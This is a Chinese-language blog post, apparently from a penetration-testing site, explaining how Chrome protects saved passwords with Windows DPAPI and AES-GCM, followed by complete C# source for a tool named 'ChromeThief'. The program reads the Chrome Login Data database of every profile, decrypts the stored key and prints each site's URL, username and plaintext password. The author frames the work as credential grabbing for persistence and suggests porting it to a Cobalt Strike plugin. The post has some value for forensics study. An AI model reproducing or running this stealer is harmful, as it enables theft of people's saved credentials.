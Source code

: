 ```yaml
---
layout: post
title: 渗透取证--Chrome浏览器密码凭据窃取和C#实现
date: 2023-05-12
categories: [取证, windows DPAPI]

---
```


# 文前漫谈

权限维持的重要步骤，抓密码。本文通过对Windows DPAPI的基本认识和chrome密码加密机制的理解基础上，编写C#代码实现对chrome浏览器密码的解密

实际利用下，最好是通过go，c/c++这种改写或者编到cs的插件中，基于.net平台还是有点麻烦，得准备两三个版本。





# Chrome的加密过程

* 将用户保存的账户密码使用AES GCM加密
* 将AES加密密钥通过Windows DPAPI加密保存在名为Local State的文件中，文件以json格式存储。
* 将初始化向量与密文连接起来，并将它们保存在名为Login Data的文件中，文件以sqlite数据库形式存储。





##  Local State——加密密钥存放的位置

```
%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Login Data
```

文件以json格式储存，encrypted_key 的值就是Windows dpapi加密过后的AES密钥

<img src="/img/image-20230628135158057.png" alt="image-20230628135158057" style="zoom:80%;" />



## Login Data——密文存放的位置

Sqlite3数据库

```
%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data
```

数据库结构，我们需要注意的几个字段的值

```
origin_url: 起始url
action_url: form表单提交的地址
username_value  用户名字段
password_value 密码字段
```

origin_url和action_url的选择需要注意，有时候用户手动添加的账户密码没有action_url字段的值。

<img src="/img/image-20230628140800353.png" alt="image-20230628140800353" style="zoom:80%;" />



## AES-解密过程

AES-GCM解密不仅需要密钥，还需要偏移量。我们从Local Data数据库提取我们需要的字段，ciphey的值是密码AES加密后的值

<img src="/img/image-20230628143438678.png" alt="image-20230628143438678"  />

它包含了两个重要的值：

* Initialization vector （初始化向量）
* Encrypted passwords （加密后的密码）

用python代码解释这两者的位置，

```python
initialisation_vector = ciphertext[3:15]
encrypted_password = ciphertext[15:-16]
```

按照上面的流程实现代码如下



# C# 代码实现

为什么用C#？

刚开始想写个powershell的脚本调用的，但是实战装库等情况复杂。可能还是类C的实现实用

```
using System;
using System.Text;
using System.IO;
using System.Data.SQLite;
using System.Linq;
using Org.BouncyCastle.Crypto.Engines;
using Org.BouncyCastle.Crypto.Modes;
using Org.BouncyCastle.Crypto.Parameters;
using System.Security.Cryptography;


namespace ChromeThief
{
    class Program
    {
        // GLOBAL CONSTANT
        private static readonly string CHROME_PATH_LOCAL_STATE = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Google\Chrome\User Data\Local State");
        private static readonly string CHROME_PATH = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Google\Chrome\User Data");

        private static String DecryptPassword(byte[] encryptedPassword, byte[] iv, byte[] secretKey)
        {
            string sR = string.Empty; 
            try
            {
                GcmBlockCipher cipher = new GcmBlockCipher(new AesEngine());
                AeadParameters parameters = new AeadParameters(new KeyParameter(secretKey), 128, iv, null);

                cipher.Init(false, parameters);
                byte[] plainBytes = new byte[cipher.GetOutputSize(encryptedPassword.Length)];
                Int32 retLen = cipher.ProcessBytes(encryptedPassword, 0, encryptedPassword.Length, plainBytes, 0);
                cipher.DoFinal(plainBytes, retLen);

                sR = Encoding.UTF8.GetString(plainBytes).TrimEnd("\r\n\0".ToCharArray());
                //Console.WriteLine(sR);
                return sR;
            }
            catch (Exception e)
            {
                Console.WriteLine($"{e.Message}");
                Console.WriteLine("[ERR] Unable to decrypt, Chrome version <80 not supported. Please check.");
                return null;
            }
        }


        private static byte[] GetSecretKey()
        {
            try
            {
                // Get secretkey from chrome local state
                var localState = File.ReadAllText(CHROME_PATH_LOCAL_STATE);
                dynamic json = Newtonsoft.Json.JsonConvert.DeserializeObject(localState);
                String key = json.os_crypt.encrypted_key;
                byte[] encryptedKeyBytes = Convert.FromBase64String(key);
                //Console.WriteLine(encryptedKeyBytes);
                byte[] encryptedKey = new byte[encryptedKeyBytes.Length - 5];
                Array.Copy(encryptedKeyBytes, 5, encryptedKey, 0, encryptedKey.Length);
                byte[] secretKey = ProtectedData.Unprotect(encryptedKey, null, DataProtectionScope.LocalMachine);
                //Console.WriteLine(BitConverter.ToString(secretKey));  
                return secretKey;
            }
            catch (Exception e)
            {
                Console.WriteLine($"{e.Message}");
                Console.WriteLine("[ERR] Chrome secretkey cannot be found");
                return null;
            }
        }
        
                static void Main(string[] args)
        {
            //Console.WriteLine(CHROME_PATH_LOCAL_STATE);
            //Console.WriteLine(CHROME_PATH);
            var folders = Directory.GetDirectories(CHROME_PATH, "Profile*").Union(Directory.GetDirectories(CHROME_PATH, "Default"));
            var secretKey = GetSecretKey();
            //C: \Users\86176\AppData\Local\Google\Chrome\User Data\Default

            foreach (var folder in folders)	
            {
                //Console.WriteLine(folder);
                var chromePathLoginDb = Path.Combine(folder, "Login Data");
                string connectionString = String.Format("Data Source={0};Version=3;", chromePathLoginDb);
                var conn = new SQLiteConnection(connectionString);
                conn.Open();
                SQLiteCommand cmd = new SQLiteCommand("SELECT origin_url, username_value, password_value FROM logins", conn);
                var reader = cmd.ExecuteReader();
                while (reader.Read())
                {
                    var url = reader.GetString(0);
                    var username = reader.GetString(1);
                    var ciphertext = (byte[])reader.GetValue(2);
                    //Console.WriteLine(ciphertext);

                    if (!string.IsNullOrEmpty(url) && !string.IsNullOrEmpty(username) && ciphertext != null)
                    {
                        // Filter the initialisation vector & encrypted password from ciphertext
                        //byte[] iv = new byte[12];
                        //Array.Copy(ciphertext, 3, iv, 0, 12);
                        ////System.Array.Copy(encryptedData, 3 + iv.Length, ciphertextTag, 0, ciphertextTag.Length);
                        //byte[] encryptedPassword = new byte[ciphertext.Length - 15 - 16];
                        //Array.Copy(ciphertext, 15, encryptedPassword, 0, ciphertext.Length - 15 - 16);
                        byte[] iv = new byte[12];
                        byte[] ciphertextTag = new byte[ciphertext.Length - 3 - iv.Length];

                        System.Array.Copy(ciphertext, 3, iv, 0, iv.Length);
                        System.Array.Copy(ciphertext, 3 + iv.Length, ciphertextTag, 0, ciphertextTag.Length);
                        // Use AES algorithm to decrypt the password
                        Console.WriteLine($"URL: {url}\nUser Name: {username}");
                        var decryptedPassword = DecryptPassword(ciphertextTag, iv, secretKey);
                        Console.WriteLine($"Password: {decryptedPassword}\n");

                    }
                }
            }
        }

    }
}

```

